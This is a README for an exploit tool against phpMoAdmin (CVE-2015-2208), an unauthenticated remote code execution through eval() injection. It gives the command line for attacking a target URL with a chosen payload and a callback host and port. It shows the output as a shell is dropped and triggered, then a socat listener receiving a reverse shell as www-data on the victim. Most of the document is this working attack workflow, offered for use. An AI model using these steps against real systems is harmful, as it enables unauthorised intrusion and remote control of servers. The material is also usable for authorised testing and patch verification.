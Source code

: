 # Exploit for CVE-2015-2208, phpMoAdmin Unauthenticated Remote Code Execution

This is an exploit for the eval() injection vulnerability recently disclosed in the phpMoAdmin MongoDB frontend. Very quick and dirty exploit, written to test out some new ideas I had for writing more streamlined PHP RCE exploits, in this case, using the cookie to set the connectback host/port at runtime when doing a filedropper type thing. See the code for what I mean...

## Usage

To use, simply select which payload you want to use (currently only back_python.php is available, but I plan on adding back_php.php and back_perl.php at a later date). This is the "payload.php". You also must specify a callback host and port, along with the URL to the vulnerable phpMoAdmin script.

Example Use:
```
xrl:~$ python moadmin.py http://192.168.1.7/phpMoAdmin/index.php back_py.php 192.168.1.5 80

███╗   ██╗███████╗███████╗██████╗ ███████╗    ███╗   ███╗ ██████╗ ██████╗ ███████╗
████╗  ██║██╔════╝██╔════╝██╔══██╗██╔════╝    ████╗ ████║██╔═══██╗██╔══██╗██╔════╝
██╔██╗ ██║█████╗  █████╗  ██║  ██║███████╗    ██╔████╔██║██║   ██║██████╔╝█████╗  
██║╚██╗██║██╔══╝  ██╔══╝  ██║  ██║╚════██║    ██║╚██╔╝██║██║   ██║██╔══██╗██╔══╝  
██║ ╚████║███████╗███████╗██████╔╝███████║    ██║ ╚═╝ ██║╚██████╔╝██║  ██║███████╗
╚═╝  ╚═══╝╚══════╝╚══════╝╚═════╝ ╚══════╝    ╚═╝     ╚═╝ ╚═════╝ ╚═╝  ╚═╝╚══════╝
                                                                                  
                     █████╗ ██████╗ ███╗   ███╗██╗███╗   ██╗                      
                    ██╔══██╗██╔══██╗████╗ ████║██║████╗  ██║                      
                    ███████║██║  ██║██╔████╔██║██║██╔██╗ ██║                      
                    ██╔══██║██║  ██║██║╚██╔╝██║██║██║╚██╗██║                      
                    ██║  ██║██████╔╝██║ ╚═╝ ██║██║██║ ╚████║                      
                    ╚═╝  ╚═╝╚═════╝ ╚═╝     ╚═╝╚═╝╚═╝  ╚═══╝    
    Exploit for phpMoAdmin, CVE-2015-2208   Version: 20150305.3
{+} Sending Payload...
{+} Using 192.168.1.5:80 as callback...
{+} Dropping shell...
{+} Shell dropped... Triggering...
{+} got shell?
xrl:~$ 
```

For a listener, I suggest using socat, as per the following example, as it allows a full PTY to be spawned (at least with the reference Python payload).
```
xrl:~# socat -,echo=0,raw tcp4-listen:80
Got root yet?
Linux magh-meall 3.18.6-1-ARCH #1 SMP PREEMPT Sat Feb 7 08:44:05 CET 2015 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@magh-meall:/var/www/phpMoAdmin$ exit
exit
quitting, cleanup
xrl:~# 
```

## Demo
If you want, check out the [Asciicast demo][asciicast]  
[![asciicast](https://asciinema.org/a/17330.png)](https://asciinema.org/a/17330)

## Licence
Licenced under the [WTFPL][wtfpl]

[asciicast]: https://asciinema.org/a/17330
[wtfpl]: http://www.wtfpl.net/
